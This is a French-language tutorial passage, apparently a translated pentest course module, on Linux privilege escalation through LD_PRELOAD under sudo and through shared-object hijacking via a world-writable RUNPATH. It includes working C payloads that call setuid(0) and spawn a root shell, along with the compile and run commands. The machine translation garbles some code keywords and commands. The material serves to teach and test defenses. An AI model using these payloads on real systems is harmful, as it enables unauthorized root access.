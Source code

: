 Bibliothèques partagées
================

* * * * *

Il est courant que les programmes Linux utilisent des bibliothèques d'objets partagés liés dynamiquement. Les bibliothèques contiennent du code compilé ou d'autres données que les développeurs utilisent pour éviter d'avoir à réécrire les mêmes morceaux de code dans plusieurs programmes. Deux types de bibliothèques existent sous Linux : les `bibliothèques statiques` (désignées par l'extension de fichier .a) et les `bibliothèques d'objets partagés liées dynamiquement` (désignées par l'extension de fichier .so). Lorsqu'un programme est compilé, les bibliothèques statiques font partie du programme et ne peuvent pas être modifiées. Cependant, les bibliothèques dynamiques peuvent être modifiées pour contrôler l'exécution du programme qui les appelle.

Il existe plusieurs méthodes pour spécifier l'emplacement des bibliothèques dynamiques, afin que le système sache où les rechercher lors de l'exécution du programme. Cela inclut les indicateurs `-rpath` ou `-rpath-link` lors de la compilation d'un programme, en utilisant les variables d'environnement `LD_RUN_PATH` ou `LD_LIBRARY_PATH`, en plaçant les bibliothèques dans les répertoires `/lib` ou `/usr/lib` par défaut, ou en spécifiant un autre répertoire contenant les bibliothèques dans le fichier de configuration `/etc/ld.so.conf` .

De plus, la variable d'environnement `LD_PRELOAD` peut charger une bibliothèque avant d'exécuter un binaire. Les fonctions de cette bibliothèque sont privilégiées par rapport à celles par défaut. Les objets partagés requis par un binaire peuvent être visualisés à l'aide de l'utilitaire `ldd`.

```
htb_student@NIX02 :~$ ldd /bin/ls

linux-vdso.so.1 => (0x00007fff03bc7000)
libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)

```

L'image ci-dessus répertorie toutes les bibliothèques requises par `/bin/ls`, ainsi que leurs chemins absolus.

* * * * *

LD_PRELOAD Élévation des privilèges
-------------------------------

Voyons un exemple de la façon dont nous pouvons utiliser la variable d'environnement [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) pour augmenter les privilèges. Pour cela, nous avons besoin d'un utilisateur avec les privilèges `sudo` .

```
htb_student@NIX02 :~$ sudo -l

Entrées correspondantes par défaut pour daniel.carter sur NIX02 :
     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

L'utilisateur daniel.carter peut exécuter les commandes suivantes sur NIX02 :
     (racine) NOPASSWD : redémarrage de /usr/sbin/apache2

```

Cet utilisateur a le droit de redémarrer le service Apache en tant qu'utilisateur root, mais étant donné qu'il ne s'agit PAS d'un [GTFOBin](https://gtfobins.github.io/#apache) et que l'entrée `/etc/sudoers` est écrite en spécifiant le chemin absolu, cela ne peut pas être utilisé pour augmenter les privilèges dans des circonstances normales. Cependant, nous pouvons exploiter le problème `LD_PRELOAD` pour exécuter un fichier de bibliothèque partagé personnalisé. Compilons la bibliothèque suivante :

Code : c

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

```

Nous pouvons compiler ceci comme suit :

```
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles

```

Enfin, nous pouvons augmenter les privilèges à l'aide de la commande ci-dessous. Assurez-vous de spécifier le chemin d'accès complet à votre fichier de bibliothèque malveillant.

```
htb_student@NIX02 :~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 redémarrage

identifiant
uid=0(root) gid=0(root) groupes=0(root)

```

Détournement d'objets partagés
=======================

* * * * *

Les programmes et les binaires en cours de développement sont généralement associés à des bibliothèques personnalisées. Considérez le binaire `SETUID` suivant.

```
htb_student@NIX02:~$ ls -la paie

-rwsr-xr-x 1 racine racine 16728 1 sept. 22:05 paie

```

Nous pouvons utiliser [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) pour imprimer l'objet partagé requis par un objet binaire ou partagé. `Ldd` affiche l'emplacement de l'objet et l'adresse hexadécimale où il est chargé en mémoire pour chacune des dépendances d'un programme.

```
htb_student@NIX02 :~ $ ldd paie

linux-vdso.so.1 => (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)

```

Nous voyons une bibliothèque non standard nommée `libshared.so` répertoriée comme une dépendance pour le binaire. Comme indiqué précédemment, il est possible de charger des bibliothèques partagées à partir d'emplacements personnalisés. L'un de ces paramètres est la configuration `RUNPATH` . Les bibliothèques de ce dossier ont la priorité sur les autres dossiers. Cela peut être inspecté à l'aide de l'utilitaire [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html).

```
htb_student@NIX02 :~$ readelf -d paie | grep CHEMIN

  0x000000000000001d (RUNPATH) Chemin d'exécution de la bibliothèque : [/development]

```

La configuration permet le chargement de bibliothèques à partir du dossier `/development` , accessible en écriture par tous les utilisateurs. Cette mauvaise configuration peut être exploitée en plaçant une bibliothèque malveillante dans `/development`, qui aura priorité sur les autres dossiers car les entrées de ce fichier sont vérifiées en premier (avant les autres dossiers présents dans les fichiers de configuration).

```
htb_student@NIX02 :~$ ls -la /development/

total 8
drwxrwxrwx 2 racine racine 4096 1er septembre 22:06 ./
drwxr-xr-x 23 racine racine 4096 1er septembre 21:26 ../

```

Avant de compiler une bibliothèque, nous devons trouver le nom de la fonction appelée par le binaire.

```
htb_student@NIX02 :~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so

```

```
htb_student@NIX02 :~ $ ldd paie

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)

```

```
htb_student@NIX02 :~$ ./paie

./payroll : erreur de recherche de symbole : ./payroll : symbole non défini : dbquery

```

Nous pouvons copier une bibliothèque existante dans le dossier `development` . L'exécution `ldd` contre le binaire répertorie le chemin de la bibliothèque comme `/development/libshared.`so, ce qui signifie qu'il est vulnérable. L'exécution du binaire génère une erreur indiquant qu'il n'a pas réussi à trouver la fonction nommée `dbquery`. Nous pouvons compiler un objet partagé qui inclut cette fonction.

Code : c

```
#include<stdio.h>
#include<stdlib.h>

vider dbquery() {
     printf("Bibliothèque malveillante chargée\n");
     setuid(0);
     system("/bin/sh -p");
}

```

La fonction `dbquery` définit notre identifiant d'utilisateur sur 0 (racine) et exécute `/bin/sh` lorsqu'elle est appelée. Compilez-le en utilisant [GCC](https://linux.die.net/man/1/gcc).

```
htb_student@NIX02 :~$ gcc src.c -fPIC -shared -o /development/libshared.so

```

Exécuter à nouveau le binaire devrait afficher la bannière et ouvrir un shell racine.

```
htb_student@NIX02 :~$ ./paie

*************** Base de données des employés du fret intérieur ***************

Bibliothèque malveillante chargée
# identifiant
uid=0(root) gid=1000(mrb3n) groupes=1000(mrb3n)

```